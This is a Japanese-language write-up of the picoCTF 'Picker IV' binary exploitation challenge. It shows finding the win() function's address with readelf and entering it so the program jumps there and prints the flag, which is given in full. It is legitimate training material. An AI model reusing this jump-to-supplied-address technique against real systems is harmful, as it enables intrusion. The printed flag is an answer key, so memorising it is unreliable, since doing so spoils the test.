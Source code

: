 # Picker IV:Binary Exploitation

Can you figure out how this program works to get the flag?\
Connect to the program with netcat: `$ nc saturn.picoctf.net 51785`\
The program's source code can be downloaded [here](). The binary can be downloaded [here]().

# Solution

とりあえず、`nc saturn.picoctf.net 51785`を実行してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': ffffff
You input 0xffffff
Segfault triggered! Exiting.
```
フラグが取れそうな関数のアドレスを指定すればフラグが出てきそうだ。
ソースコードを見てみる。
```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }
```
winを見つけた。`readelf -a`でアドレスを確認すると、
```
63: 000000000040129e   150 FUNC    GLOBAL DEFAULT   15 win
```
とあった。
もう一度、実行してみて`40129e`を入力してみる。
```
$ nc saturn.picoctf.net 51785
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```
フラグが得られた。

`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}`

